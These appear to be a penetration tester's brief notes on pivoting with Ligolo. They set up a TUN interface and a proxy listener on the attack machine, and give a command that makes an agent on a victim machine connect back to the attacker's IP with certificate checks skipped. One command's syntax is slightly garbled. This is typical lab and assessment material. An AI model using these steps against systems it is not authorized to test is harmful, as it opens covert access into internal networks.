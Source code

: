 ### Ligolo Tunneling - Port Forwarding

**Get the Ligolo Proxy and the Agent executables**
1. On the attack machine:
```bash
sudo ip tuntap adduser hutgrabber mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert -laddr 0.0.0.0:443 [any port and loopback]
# in another window:
sudo ip route add [victim subnet]/CIDR dev ligolo
start
```

2. On the victim machine:
```powershell
./agent -connect [attack ip]:[port] -ignore-cert
```



